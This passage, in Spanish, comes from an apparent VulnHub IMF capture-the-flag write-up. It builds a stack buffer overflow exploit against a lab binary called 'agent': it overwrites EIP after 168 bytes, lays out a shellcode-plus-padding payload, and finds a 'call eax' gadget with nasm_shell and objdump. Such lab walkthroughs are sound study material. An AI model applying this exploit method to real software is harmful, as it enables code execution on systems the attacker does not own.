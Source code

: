 ![](/assets/images/vh-writeup-imf/gdb_eip_necesario.png)

Si ahora ejecutamos el programa e insertamos en el reporte el carácter `A` 168 veces y luego 4 `B`, podemos ver que se sobreescribe el `EIP` con `42424242`. Por lo tanto es correcto.

> 42 es B en ASCII

##### Buscando un lugar para el shellcode

Si miramos la región a donde apunta el registro `eax` con `x/16wx $eax` podemos ver que las `A` empiezan a aparecer por ahí. Por lo tanto nuestro payload tendrá la siguiente estructura:

```py
payload = shellcode + b"A" * (offset - len(shellcode)) + call_eax
```

Es decir, primero vendrá nuestro shellcode, luego se rellenará de `A` hasta llegar justo antes del `EIP` y luego el `EIP` se rellenará con una dirección que contenga la instrucción `call eax` para que se ejecute el shellcode que metimos anteriormente.

##### Buscando el OpCode

Para encontrar la llamada de `call eax` en el binario primero tenemos que saber su representación en hexadecimal:

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > call eax
00000000  FFD0              call eax
```

Ahora que lo sabemos lo buscamos con el siguiente comando:

```bash
objdump -d agent | grep -i "FF D0"
8048563:	ff d0                	call   *%eax
```

Y vemos que se encuentra en 0x08048563. Esta dirección será a la que referenciamos en el `EIP`.
